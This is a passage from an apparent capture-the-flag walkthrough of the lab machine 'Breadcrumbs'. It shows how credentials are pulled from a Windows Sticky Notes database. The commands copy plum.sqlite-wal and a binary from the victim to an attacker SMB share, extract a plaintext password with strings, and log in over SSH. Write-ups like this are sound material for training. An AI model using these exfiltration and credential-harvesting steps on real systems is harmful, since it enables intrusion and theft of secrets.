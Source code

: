``` bash
            <td>In progress</td>
            <td>It stores passwords in plain text</td>
        </tr>
        <tr>
            <td>Add new features to password manager</td>
            <td>Not started</td>
            <td>To get promoted, hopefully lol</td>
        </tr>
</table>

</html>
```

I found something related to the "sticky notes" there is a way to exploit this searching for sensitive information.

``` bash
juliette@BREADCRUMBS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState>dir    
01/15/2021  05:10 PM            20,480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
11/29/2020  04:10 AM             4,096 plum.sqlite
01/15/2021  05:10 PM            32,768 plum.sqlite-shm
01/15/2021  05:10 PM           329,632 plum.sqlite-wal

#download plum.sqlite-wal
#On my machine 
smbserver sharedfolder . -smb2support

#on the victim machine
copy plum.sqlite-wal \\10.10.14.5\sharedfolder\plum.sqlite-wal
❯ strings plum.sqlite-wal
development: fN3)sN5Ee@g
```

Using "strings" to list information containing in this file we obtain the credentials for the user "Development"

Now we connect via SSH with this user

``` bash
ssh development@10.10.10.228
```

We found a binary, so download it

``` bash
development@BREADCRUMBS C:\Development>dir
11/29/2020  04:11 AM            18,312 Krypter_Linux

#download Krypter_Linux
#On my machine 
smbserver sharedfolder . -smb2support

#on the victim machine
copy Krypter_Linux \\10.10.14.5\sharedfolder\Krypter_Linux

```
